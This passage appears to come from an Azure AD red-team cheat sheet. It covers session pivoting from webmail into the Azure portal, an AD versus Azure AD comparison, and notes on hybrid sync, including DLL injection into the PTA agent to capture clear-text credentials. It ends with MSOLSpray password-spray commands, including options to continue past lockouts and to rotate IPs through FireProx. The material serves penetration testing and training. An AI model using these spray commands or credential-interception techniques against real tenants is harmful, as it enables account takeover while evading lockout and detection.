 1. Authenticate to your webmail portal (i.e. https://webmail.domain.com/)
2. Change your browser URL to: https://azure.microsoft.com/
3. Pick the account from the active sessions
4. Select Azure Active Directory and enjoy!

### Azure AD vs Active Directory

| Active Directory  | Azure AD  |
|---|---|
| LDAP  | REST API'S  |
| NTLM/Kerberos  | OAuth/SAML/OpenID |
| Structured directory (OU tree)  | Flat structure  |
| GPO  | No GPO's  |
| Super fine-tuned access controls  | Predefined roles |
| Domain/forest  | Tenant  |
| Trusts  | Guests  |

* Password Hash Syncronization (PHS)
    * Passwords from on-premise AD are sent to the cloud
    * Use replication via a service account created by AD Connect
* Pass Through Authentication (PTA)
    * Possible to perform DLL injection into the PTA agent and intercept authentication requests: credentials in clear-text
* Connect Windows Server AD to Azure AD using Federation Server (ADFS)
    * Dir-Sync : Handled by on-premise Windows Server AD, sync username/password


* Azure AD Joined : https://pbs.twimg.com/media/EQZv62NWAAEQ8wE?format=jpg&name=large
* Workplace Joined : https://pbs.twimg.com/media/EQZv7UHXsAArdhn?format=jpg&name=large
* Hybrid Joined : https://pbs.twimg.com/media/EQZv77jXkAAC4LK?format=jpg&name=large
* Workplace joined on AADJ or Hybrid : https://pbs.twimg.com/media/EQZv8qBX0AAMWuR?format=jpg&name=large

### Password Spray

> Default lockout policy of 10 failed attempts, locking out an account for 60 seconds

```powershell
git clone https://github.com/dafthack/MSOLSpray
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!

# UserList  - UserList file filled with usernames one-per-line in the format "user@domain.com"
# Password  - A single password that will be used to perform the password spray.
# OutFile   - A file to output valid results to.
# Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
# URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
```
